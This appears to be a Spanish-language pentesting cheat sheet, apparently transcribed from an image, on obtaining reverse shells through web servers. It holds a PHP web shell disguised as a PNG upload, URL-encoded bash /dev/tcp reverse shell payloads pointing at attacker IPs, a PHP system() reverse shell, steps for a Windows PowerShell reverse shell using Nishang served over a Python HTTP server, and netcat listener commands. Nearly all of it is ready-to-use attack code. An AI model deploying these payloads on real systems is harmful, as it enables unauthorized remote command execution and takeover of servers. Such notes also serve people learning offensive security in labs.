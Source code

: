 ## Imagen 'png' 

```bash 
❯ nano image.png

	<?php
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
	?>

# Colocare la revershell en la web 
❯ ?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.50.129%2F4444%200%3E%261%27
```

## ReverShell en php:

```php
<?php
   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")
?>

	# IP = IP de atacante
	# 443 = Puerto a usar

<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>

# Colocare la revershell en la web 
❯ ?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.50.129%2F4444%200%3E%261%27
```

```bash 
# Para Windows se debe poder hacer injección de comandos en la web, esto se puede hacer:
1. Con la carga de un archivo 'cmd.php'
2. Buscar una parte de la web que ejecute comandos 

# Hacer la Revershell
1. Ejecutar el comando en powershell
2. Crear el archivo llamado 'Ps.ps1' con el payload de la revershell 
	1. https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
	2. Al final del payload colocar: 'Invoke-PowerShellTcp -Reverse -IPAddress 127.0.0.1 -Port 4444'
3. Kali debe de compartir el PS.ps1 con 'python3 -m http.server 80' 
4. Kali debe de escuchar con 'rlwrap nc -nlvp 4444' para Windows 
```

## Escucha Netcat 

```bash
# Escucha por Netcat en espera de la Revershell

❯ nc -nlvp 443            # Para obtener un shell en Linux

❯ rlwrap nc -nlvp 443     # Para obtener un shell en Windows 

	# nc = Netcat 
	# n = No DNS
	# l = Modo escucha, conexiones entrantes
	# v = verbose
	# p = numero local de puerto en esucha
```
